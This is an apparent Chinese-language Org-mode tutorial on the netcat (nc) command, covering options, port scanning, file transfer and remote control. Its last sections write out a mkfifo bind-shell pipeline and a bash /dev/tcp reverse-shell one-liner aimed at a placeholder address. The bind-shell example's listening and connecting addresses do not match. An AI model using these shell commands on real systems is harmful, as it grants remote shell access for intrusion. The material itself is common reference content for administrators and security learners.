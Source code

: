 #+TITLE: Nc 命令
#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="css/main.css" />
#+OPTIONS: num:nil timestamp:nil ^:nil

nc命令 全称 *netcat* ，用于TCP、UDP或unix域套接字(uds)的数据流操作，它可以 _打开_ TCP连接， _发送_ UDP数据包， _监听_ 任意TCP 和UDP端口，同时也可用作做 _端口扫描_ ，支持IPv4和IPv6，与Telnet的不同在于nc可以编写脚本

#+begin_example
nc 也被称为网络工具中的瑞士军刀
#+end_example
* 语法
#+begin_example
nc [-hlnruz][-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>][-p<通信端口>]
[-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]
#+end_example
* 选项
#+begin_example
  -4 只使用IPV4
  -6 只使用IPV6
  -c 使用tls连接或者监听
  -D 启用socket调试开关
  -g <网关> # 设置路由器跃程通信网关，最多可设置8个。
  -G<指向器数目> # 设置来源路由指向器，其数值为4的倍数。
  -h 在线帮助。
  -i<延迟秒数> 设置时间间隔，以便传送信息及扫描通信端口。
  -l 使用监听模式，管控传入的资料。
  -n 直接使用IP地址，而不通过域名服务器。
  -o<输出文件> # 指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存。
  -p<通信端口> # 设置本地主机使用的通信端口。
  -r 乱数指定本地与远端主机的通信端口。
  -s<来源位址> # 设置本地主机送出数据包的IP地址。
  -u 使用UDP传输协议。
  -v 显示指令执行过程。
  -w<超时秒数> # 设置等待连线的时间。
  -z 使用0输入/输出模式，只在扫描通信端口时使用。
#+end_example
* 实例
** TCP端口扫描
#+begin_src sh 
  [root@localhost ~]# nc -v -z -w2 192.168.0.3 1-100 
  192.168.0.3: inverse host lookup failed: Unknown host
  (UNKNOWN) [192.168.0.3] 80 (http) open
  (UNKNOWN) [192.168.0.3] 23 (telnet) open
  (UNKNOWN) [192.168.0.3] 22 (ssh) open
#+end_src

扫描192.168.0.3 的端口 范围是 1-100

** 扫描UDP端口

#+begin_src sh 
[root@localhost ~]# nc -u -z -w2 192.168.0.3 1-1000 
#+end_src
扫描192.168.0.3 的端口 范围是 1-1000 UDP 端口

** 扫描指定端口

#+begin_src sh 
  [root@localhost ~]# nc -nvv 192.168.0.1 80 # 扫描 80端口
  (UNKNOWN) [192.168.0.1] 80 (?) open
  y  //用户输入
#+end_src


查看从服务器到目的地的出站端口 443 是否被防火墙阻止

#+begin_src sh 
  nc -vz acme-v02.api.letsencrypt.org 443 -w2
  # Ncat: Version 7.50 ( https://nmap.org/ncat )
  # Ncat: Connected to 23.77.214.183:443.
  # Ncat: 0 bytes sent, 0 bytes received in 0.07 seconds.
#+end_src

** 文件传输

#+begin_src sh 
  # 接收方提前设置监听端口与要接收的文件名（文件名可自定义）：
  nc -lp 8888 > node.tar.gz

  # 传输方发文件：
  nc -nv 192.168.75.121 8888  < node_exporter-1.3.1.linux-amd64.tar.gz
  # ⚠️ 注意：192.168.75.121是接收方的ip地址。
#+end_src

如果希望文件传输结束后自动退出，可以使用下面的命令：
#+begin_src sh 
nc -lp 8888 > node.tar.gz
nc -nv 192.168.75.121 8888 -i 1 < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：-i 表示闲置超时时间
#+end_src

** 远程控制

正向控制，被控端主动设置监听端口及bash环境，控制端连接，如果有防火墙，需开放端口，否则会被拦截：

#+begin_src sh 
  # 被控制端执行下面的命令：
  rm -f /tmp/f; mkfifo /tmp/f
  cat /tmp/f | /bin/sh -i 2>&1 | nc -l 192.168.2.160 1234 > /tmp/f

  # 控制端执行下面的命令：
  nc 192.168.75.121 8888

  # 命令执行完成后，被控制端
  rm -f /tmp/f
#+end_src

** 反弹shell
服务端反向获得客户端的shell
#+begin_src sh 
  # 控制端执行下面的命令：
  nc -lvnp 8888
  # 被控制端执行下面的命令：
  bash -c 'bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/8888 0>&1'
#+end_src

